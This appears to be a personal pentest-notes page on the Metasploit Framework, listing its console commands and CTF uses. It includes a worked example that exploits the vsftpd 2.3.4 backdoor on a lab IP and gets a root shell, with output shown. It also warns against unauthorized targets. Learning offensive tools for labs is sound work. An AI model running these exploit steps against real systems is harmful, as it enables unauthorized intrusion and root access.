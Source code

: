 #### Official Documentation: [https://www.metasploit.com/](https://www.metasploit.com/)
#### Cheat Sheet: [[Kali Tools#Metasploit|Metasploit Commands]]
## Purpose
Metasploit Framework is a platform for developing, testing, and executing exploits. It provides payloads, encoders, auxiliary modules, and post-exploitation tools.

## Scenarios
- CTF: Exploit a vulnerable service (like vsftpd, SMB) with a known Metasploit module to get a shell.  
- Real world: Simulate attacker behavior with proof-of-concept exploits and post-exploitation modules.

## All needed info to run
- Start console: `msfconsole`.  
- Search modules: `search <keyword>`.  
- Use module: `use exploit/...`.  
- Show options: `show options`.  
- Set target: `set RHOSTS <ip>`, `set RPORT <port>`.  
- Set payload: `set PAYLOAD <payload>`.  
- Run: `exploit` or `run`.  
- Categories: exploits, auxiliary (scanners), payloads, post, encoders.  
- Database integration allows workspace management.

## Example commands & outputs
```bash
# Start console
$ msfconsole
msf6 >

# Search and use vsftpd exploit
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > set RHOSTS 192.168.56.101
msf6 exploit(...) > set PAYLOAD cmd/unix/interact
msf6 exploit(...) > run
# Output:
# [*] Command shell session 1 opened (192.168.56.101:21 -> 192.168.56.1:4444)

# Session interaction
msf6 > sessions -i 1
id
uid=0(root) gid=0(root)
```

!!! note "Metasploit Basics"
	- Use `search <keyword>` to find modules for a service or CVE.
	- Always `show options` before running to configure RHOST, RPORT, payload.
	- Use `sessions -i <id>` to interact with opened shells.
	- Metasploit is powerful but noisy — avoid using on unauthorized targets.


### [[Kali Tools#Metasploit|Metasploit Commands]]